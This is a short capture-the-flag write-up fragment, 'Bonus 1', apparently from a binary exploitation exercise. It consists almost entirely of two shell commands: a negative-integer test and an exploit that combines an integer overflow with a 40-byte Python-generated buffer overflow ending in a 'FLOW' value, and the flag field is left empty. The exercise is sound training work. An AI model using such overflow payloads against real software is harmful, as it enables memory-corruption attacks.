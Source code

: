 # Bonus 1

`./a.out -2147483637`
`44`

`./bonus1  -2147483637 $(python -c 'print "N" * 40 + "\x46\x4c\x4f\x57"')`
**Flag:** ``
